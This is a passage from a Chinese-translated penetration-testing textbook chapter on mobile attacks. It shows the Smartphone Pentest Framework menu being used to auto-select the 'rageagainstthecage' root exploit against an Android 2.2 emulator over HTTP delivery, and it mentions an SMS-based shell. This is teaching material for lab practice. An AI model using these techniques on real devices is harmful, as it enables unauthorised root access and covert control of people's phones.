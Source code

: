 ![使用基于 SMS 的 Shell 绕过外围控制。](img/httpatomoreillycomsourcenostarchimages2030596.png.jpg)图 20-5. 使用基于 SMS 的 Shell 绕过外围控制。

### 注意

除了接下来讨论的权限提升示例外，我们没有理由必须使用 Android 2.2 作为目标模拟器。本章中我们使用的其他恶意应用示例可以在任何版本的 Android 上运行。

### 权限提升

作为一个分支的 Linux 内核，Android 共享了一些 Linux 的权限提升漏洞，并且自身也有一些安全漏洞。甚至 OEM 厂商在实现 Android 时也加入了漏洞。例如，2012 年，发现三星设备在使用某种芯片时，在处理相机内存时存在权限提升漏洞，攻击者可以获得所有内存的读写访问权限。

如果你希望你的应用获得更多权限，你可以尝试利用代理中的已知问题来获得 root 权限，如示例 20-27 所示。

示例 20-27. 运行权限提升漏洞

```
Commands:
--*snip*--
Select a command to perform or 0 to return to the previous menu
spf> **5**
    1.) Choose a Root Exploit
    2.) Let SPF AutoSelect

Select an option or 0 to return to the previous menu
spf> **2**❶
    Try a privilege escalation exploit.

Chosen Exploit: rageagainstthecage❷
Delivery Method(SMS or HTTP): **HTTP**❸
```

在代理命令菜单中，选择选项`5.) 权限提升`。从这里我们有两个选项。我们可以手动选择 SPF 已知的 Android 漏洞利用，或者让 SPF 根据 Android 版本号自动选择。我们的 Android 2.2 模拟器易受 Rage Against the Cage 漏洞利用的攻击。尽管这是一个较旧的漏洞，但它在模拟器上效果很好，所以让我们让 SPF 自动选择漏洞利用，如图❶所示。因为这是 Android 2.2，SPF 正确地选择了`rageagainstthecage` ❷，并要求选择传递方法❸。

在让漏洞利用程序运行一段时间后，请返回主菜单，选择选项**`3`**。Rooted 字段应显示`RageAgainstTheCage`，如下所示。
